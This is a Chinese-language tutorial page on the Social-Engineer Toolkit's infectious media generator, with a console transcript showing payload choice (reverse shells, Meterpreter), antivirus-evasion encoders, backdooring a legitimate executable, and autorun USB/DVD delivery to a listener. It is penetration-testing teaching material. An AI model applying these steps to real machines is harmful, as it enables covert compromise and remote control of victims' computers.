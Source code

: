 # 感染性媒介发生器

传染媒介生成器是一种相对简单的攻击向量。SET 将创建基于 Metasploit 的负载，为您设置侦听器，并生成需要刻录或写入 DVD/USB 驱动器的文件夹。一旦插入，如果启用自动运行，代码将自动执行并控制机器。

## 怎么做。。。

该攻击向量基于产生恶意可执行文件的简单原理，然后用可用编码器编码，以绕过反病毒保护。

```
Name: Description:
1\. Windows Shell Reverse_TCP Spawn a command shell on victim and send back to attacker.
2\. Windows Reverse_TCP Meterpreter Spawn a meterpreter shell on victim and send back to attacker.
3\. Windows Reverse_TCP VNC DLL Spawn a VNC server on victim and send back to attacker.
4\. Windows Bind Shell Execute payload and create an accepting port on remote system.
5\. Windows Bind Shell X64 Windows x64 Command Shell, Bind TCP Inline
6\. Windows Shell Reverse_TCP X64 Windows X64 Command Shell, Reverse TCP Inline
7\. Windows Meterpreter Reverse_TCP X64 Connect back to the attacker (Windows x64), Meterpreter
8\. Windows Meterpreter Egress Buster Spawn a meterpreter shell and find a port home via multiple ports
9\. Import your own executable Specify a path for your own executable
Enter choice (hit enter for default):
Below is a list of encodings to try and bypass AV.
Select one of the below, 'backdoored executable' is typically the best.
1\. avoid_utf8_tolower (Normal)
2\. shikata_ga_nai (Very Good)
3\. alpha_mixed (Normal)
4\. alpha_upper (Normal)
5\. call4_dword_xor (Normal)
6\. countdown (Normal)
7\. fnstenv_mov (Normal)
8\. jmp_call_additive (Normal)
9\. nonalpha (Normal)
10\. nonupper (Normal)
11\. unicode_mixed (Normal)
12\. unicode_upper (Normal)
13\. alpha2 (Normal)
14\. No Encoding (None)
15\. Multi-Encoder (Excellent)
16\. Backdoored Executable (BEST)
Enter your choice (enter for default):
[-] Enter the PORT of the listener (enter for default):
[-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
[-] Backdoor completed successfully. Payload is now hidden within a legit executable.
[*] Your attack has been created in the SET home directory folder "autorun"
[*] Copy the contents of the folder to a CD/DVD/USB to autorun.
[*] The payload can be found in the SET home directory.
[*] Do you want to start the listener now? yes or no: yes
[*] Please wait while the Metasploit listener is loaded... 
```

## 它是如何工作的。。。

生成编码的恶意文件后，Metasploit 侦听器开始等待反向连接。此攻击的唯一限制是，可移动媒体必须启用自动运行，否则需要手动触发。

在目标用户在防火墙后面的情况下，这种类型的攻击向量可能是有用的。大多数防病毒程序，现在是一天，禁用自动运行，这反过来使这种类型的攻击无效。pen tester 以及基于自动运行的攻击也应确保随媒体提供后门合法可执行文件/PDF。这将确保受害者始终执行一个有效负载。